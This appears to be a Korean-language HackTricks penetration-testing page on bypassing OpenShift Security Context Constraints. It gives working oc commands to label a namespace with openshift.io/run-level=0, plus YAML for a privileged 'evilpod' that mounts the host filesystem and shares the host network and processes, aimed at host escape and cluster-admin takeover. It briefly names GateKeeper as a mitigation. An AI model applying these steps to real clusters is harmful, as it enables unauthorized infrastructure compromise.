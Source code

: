 # Openshift - SCC 우회

{{#include ../../../banners/hacktricks-training.md}}

**이 페이지의 원래 저자는** [**Guillaume**](https://www.linkedin.com/in/guillaume-chapela-ab4b9a196)입니다.

## 권한 있는 네임스페이스

기본적으로 SCC는 다음 프로젝트에 적용되지 않습니다:

- **default**
- **kube-system**
- **kube-public**
- **openshift-node**
- **openshift-infra**
- **openshift**

이 네임스페이스 중 하나에 포드를 배포하면 SCC가 적용되지 않아 권한 있는 포드를 배포하거나 호스트 파일 시스템을 마운트할 수 있습니다.

## 네임스페이스 레이블

RedHat 문서에 따르면 포드에서 SCC 적용을 비활성화하는 방법이 있습니다. 다음 권한 중 하나 이상이 필요합니다:

- 네임스페이스 생성 및 이 네임스페이스에 포드 생성
- 네임스페이스 편집 및 이 네임스페이스에 포드 생성
```bash
$ oc auth can-i create namespaces
yes

$ oc auth can-i patch namespaces
yes
```
특정 레이블 `openshift.io/run-level`은 사용자가 애플리케이션에 대한 SCC를 우회할 수 있게 해줍니다. RedHat 문서에 따르면, 이 레이블이 사용될 때 해당 네임스페이스 내의 모든 포드에 대해 SCC가 적용되지 않으며, 사실상 모든 제한이 제거됩니다.

<figure><img src="../../../images/Openshift-RunLevel4.png" alt=""><figcaption></figcaption></figure>

## 레이블 추가

네임스페이스에 레이블을 추가하려면 :
```bash
$ oc label ns MYNAMESPACE openshift.io/run-level=0
```
YAML 파일을 통해 레이블이 있는 네임스페이스를 생성하려면:
```yaml
apiVersion: v1
kind: Namespace
metadata:
name: evil
labels:
openshift.io/run-level: 0
```
이제 네임스페이스에서 생성된 모든 새로운 팟은 SCC가 없어야 합니다.

<pre class="language-bash"><code class="lang-bash"><strong>$ oc get pod -o yaml | grep 'openshift.io/scc'
</strong><strong>$
</strong></code></pre>

SCC가 없으면 팟 정의에 대한 제한이 없습니다. 이는 악의적인 팟이 호스트 시스템으로 쉽게 탈출할 수 있음을 의미합니다.
```yaml
apiVersion: v1
kind: Pod
metadata:
name: evilpod
labels:
kubernetes.io/hostname: evilpod
spec:
hostNetwork: true #Bind pod network to the host network
hostPID: true #See host processes
hostIPC: true #Access host inter processes
containers:
- name: evil
image: MYIMAGE
imagePullPolicy: IfNotPresent
securityContext:
privileged: true
allowPrivilegeEscalation: true
resources:
limits:
memory: 200Mi
requests:
cpu: 30m
memory: 100Mi
volumeMounts:
- name: hostrootfs
mountPath: /mnt
volumes:
- name: hostrootfs
hostPath:
path:
```
이제 호스트 시스템에 대한 권한 상승이 더 쉬워졌으며, 그에 따라 전체 클러스터를 장악하고 'cluster-admin' 권한을 얻을 수 있습니다. 다음 페이지에서 **Node-Post Exploitation** 부분을 찾아보세요:

{{#ref}}
../../kubernetes-security/attacking-kubernetes-from-inside-a-pod.md
{{#endref}}

### 사용자 정의 레이블

또한, 대상 설정에 따라 이전 공격 시나리오와 같은 방식으로 일부 사용자 정의 레이블/주석이 사용될 수 있습니다. 비록 의도하지 않았더라도, 레이블은 특정 리소스에 대한 권한을 부여하거나 제한하는 데 사용될 수 있습니다.

리소스를 읽을 수 있다면 사용자 정의 레이블을 찾아보세요. 흥미로운 리소스 목록은 다음과 같습니다:

- Pod
- Deployment
- Namespace
- Service
- Route
```bash
$ oc get pod -o yaml | grep labels -A 5
$ oc get namespace -o yaml | grep labels -A 5
```
## 모든 권한이 있는 네임스페이스 나열
```bash
$ oc get project -o yaml | grep 'run-level' -b5
```
## 고급 익스플로잇

OpenShift에서는 앞서 설명한 바와 같이, `openshift.io/run-level` 레이블이 있는 네임스페이스에 포드를 배포할 수 있는 권한이 있으면 클러스터를 간단히 장악할 수 있습니다. 클러스터 설정 관점에서 이 기능은 **비활성화할 수 없습니다**, 이는 OpenShift의 설계에 내재되어 있습니다.

그러나 **Open Policy Agent GateKeeper**와 같은 완화 조치는 사용자가 이 레이블을 설정하는 것을 방지할 수 있습니다.

GateKeeper의 규칙을 우회하고 이 레이블을 설정하여 클러스터 장악을 실행하려면, **공격자는 대체 방법을 식별해야 합니다.**

## 참조

- [https://docs.openshift.com/container-platform/4.8/authentication/managing-security-context-constraints.html](https://docs.openshift.com/container-platform/4.8/authentication/managing-security-context-constraints.html)
- [https://docs.openshift.com/container-platform/3.11/admin_guide/manage_scc.html](https://docs.openshift.com/container-platform/3.11/admin_guide/manage_scc.html)
- [https://github.com/open-policy-agent/gatekeeper](https://github.com/open-policy-agent/gatekeeper)



{{#include ../../../banners/hacktricks-training.md}}
